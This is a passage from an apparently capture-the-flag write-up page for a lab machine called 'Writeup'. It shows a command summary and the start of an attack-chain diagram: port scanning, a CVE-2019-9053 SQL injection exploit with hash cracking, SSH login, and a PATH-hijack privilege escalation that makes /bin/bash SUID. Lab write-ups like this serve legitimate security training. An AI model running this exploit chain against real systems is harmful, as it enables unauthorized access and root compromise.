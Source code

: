             </li>
        </ul>
    </div>
</div>

---

## 📝 Command Summary

```bash
# Network reconnaissance
nmap -Pn -p- --min-rate=1000 -T4 10.10.10.138
nmap -p$ports -sC -sV 10.10.10.138

# SQLi exploitation
python cve.py -u http://10.10.10.138/writeup/ --crack -w best110.txt
echo '62def4866937f08cc13bab43bb14e6f7:5a599ef579066807' > hash
hashcat -m 20 -a 0 hash /usr/share/wordlists/rockyou.txt

# SSH connection
ssh jkr@10.10.10.138

# Process monitoring
chmod +x /tmp/pspy32
/tmp/pspy32

# PATH Hijacking
echo -e '#\!/bin/bash\nchmod u+s /bin/bash' > /usr/local/bin/run-parts
chmod +x /usr/local/bin/run-parts
ssh jkr@10.10.10.138
/bin/bash -p
```

---

## 🔗 Attack Chain Summary

<div class="bg-white dark:bg-dark-navbar p-8 rounded-xl shadow-lg my-8">
    <h3 class="text-2xl font-bold text-portfolio-violet mb-6 flex items-center">
        <i class="fas fa-project-diagram mr-3"></i>Complete Attack Path
    </h3>
    <div class="space-y-4">
        <div class="flex items-center gap-4 p-4 bg-blue-50 dark:bg-blue-900/20 rounded-lg border-l-4 border-blue-500">
            <div class="text-3xl font-bold text-blue-500">1</div>
            <div class="flex-1">
                <div class="font-bold text-blue-600 dark:text-blue-400">Reconnaissance and Enumeration</div>
                <div class="text-sm text-gray-600 dark:text-gray-400">Nmap → robots.txt → /writeup/ → CMS Made Simple</div>
            </div>
        </div>
        <div class="flex items-center gap-4 p-4 bg-green-50 dark:bg-green-900/20 rounded-lg border-l-4 border-green-500">
            <div class="text-3xl font-bold text-green-500">2</div>
            <div class="flex-1">
                <div class="font-bold text-green-600 dark:text-green-400">Exploitation and Initial Access</div>
                <div class="text-sm text-gray-600 dark:text-gray-400">CVE-2019-9053 SQLi → Hash cracking → SSH jkr</div>
            </div>
        </div>
        <div class="flex items-center gap-4 p-4 bg-purple-50 dark:bg-purple-900/20 rounded-lg border-l-4 border-purple-500">
            <div class="text-3xl font-bold text-purple-500">3</div>
            <div class="flex-1">
